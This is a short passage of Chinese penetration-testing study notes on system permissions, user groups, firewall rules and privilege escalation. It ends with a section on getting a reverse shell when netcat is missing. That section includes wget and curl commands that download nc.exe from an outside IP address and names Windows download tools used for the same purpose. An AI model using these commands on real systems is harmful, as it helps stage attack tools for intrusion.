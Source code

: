 

2.Windows&Linux常见命令

随用随查：



【3】web安全入门篇-渗透测试中常用的命令-CSDN博客



3.文件权限&服务权限&用户权限等

提权技术 默认拒绝权限比允许权限高 。后期web需要提权



文件权限：是否可打开文件



用户权限：普通用户的权限和管理员用户的权限



4.系统用户&用户组&服务用户等分类

Administrator（管理员用户）拥有系统的所有权限



Guest （来宾用户）只有来宾用户可以使用，guest用户不用可以删掉



用户组是一群用户的统称，给以给这个组配置不同的权限。



Windows是最高权限是system，Linux是root

administrator删不了c:/system32,但是system用户是可以删除的



5.自带防火墙出站&入站规则策略协议

防火墙的入站与出站规则，通常是严进，宽出。



案例：文件上传下载-解决无图形化&解决数据传输

拿到终端操作发现没有nc工具等情况时，通过下载命令，在执行反弹shell

下载命令连接：https://forum.ywhack.com/bountytips.php?download

一般拿到权限只有cmd这个命令行，不能复制下载等，这时候就需要下载命令

这里自己创建一个直接访问www.xiaodi8.com/nc.exe 就可以直接下载的连接。

Linux命令有：wget curl python ruby perl java等

Windows命令有：PowerShell Certutil Bitsadmin msiexec mshta rundll32等

例如：

Linux - wget:wget http://47.100.167.248:8081/nc.exe -O exploit.exe

Linux - curl:curl http://47.100.167.248:8081/nc.exe -o exploit.exe
